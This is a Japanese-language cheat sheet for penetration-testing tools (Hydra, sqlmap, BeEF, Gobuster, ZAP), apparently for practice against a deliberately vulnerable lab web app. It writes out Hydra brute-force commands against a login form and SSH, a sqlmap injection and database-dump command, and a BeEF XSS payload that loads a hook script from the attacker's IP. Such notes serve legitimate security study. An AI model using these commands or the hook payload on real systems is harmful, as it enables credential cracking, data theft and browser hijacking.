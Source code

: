 # ツールの使用

* Hydra
  1. 様々なプロトコルに対応したBruteForce Attackツール
  2. ワードリスト　`/usr/share/wordlists/metasploit`
  3. コマンド例

  ``` shell
      hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
  ```

  ``` shell
      # sshでrockyou.txtを使ったパスワード総当たり
      hydra -l root -P rockyou.txt XXX.YYY.ZZZ.III ssh
  ```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |

* sqlmap
  1. SQLインジェクションの脆弱性診断ツール
  2. コマンド
     1. BurpSuiteでSQL操作時のリクエストを観測 GETリクエストとCookieでセッションIDを保持しているか。
     2. help `sqlmap -h`
     3. コマンド例 `sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=...; security=low"`
     4. `--dump`でデータベースをダンプ可能
     5. `--data`POSTで実行できる

* BeEF
  1. ブラウザ向けの脆弱性を検証するツール(XSS)
  2. メニューから`Beef start`を選択
  3. XSSでBeEFのスクリプトを実行させて制御を奪う
      `<script src=http://攻撃端末のIPアドレス:3000/hook.js></script>`
  
* Gobuster
  1. WebサイトのURLやDNSサブドメイン名を洗い出すツール
  2. コマンド例
      `gobuster dir -u WebアプリのIP -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -b '' -e`
  3. モード
     1. dir: ディレクトリを列挙するモード
     2. dns: DNSのサブドメインを列挙するモード
     3. vhost: WebサーバのVirtualHostを列挙するモード
  4. オプション
     1. -u: 探索を行う起点のURLを指定する。指定したURLをサブディレクトリを探索させることができる。
     2. -w: ワードリスト(wordlist)の指定、ここで指定したファイルにある文字列を-uで指定したURLに一行ずつくっつけて探索
     3. -s: どのステータスコードが返ってきたらアクセスしたURLが存在すると判定するかを指定できる。
     4. -b: どのステータスコードが返ってきたらアクセスしたURLが存在しないと判定するかを指定できる。(-sを指定した場合は-b ''を指定する必要がある)
     5. -x: 検索するファイル拡張子(dirモードのみ有効) php、txt、htmlファイルを検索したい場合のコマンド例:-x 'php,txt,html'
     6. -e: 見つかったURLの表示に-uで指定したベースのURLを含めて表示する(expand)

* ZAP(Zed Attack Proxy)
  1. プロキシを用いたWebアプリ用の脆弱性診断ツール
  2. 主要機能
     1. スパイダー機能
     2. 動的スキャン機能
     3. ローカルプロキシ機能
     4. ディレクトリ探索機能
     5. アラート機能
     6. ZAP Script機能
  3. 手順
     1. 起動 `zaproxy`
     2. zapウィンドウからfirefoxを起動
     3. firefoxのsettingから`manual proxy configuration`を選択　`HTTP proxy:localhost  Port:8080`
     4. webにアクセス　zapウィンドウ内のサイトに追加される
     5. スキャンモードを`プロテクトモード`にする。
     6. スキャンするURLをコンテキストに追加
     7. スキャンの実行 `攻撃　->　動的スキャン`
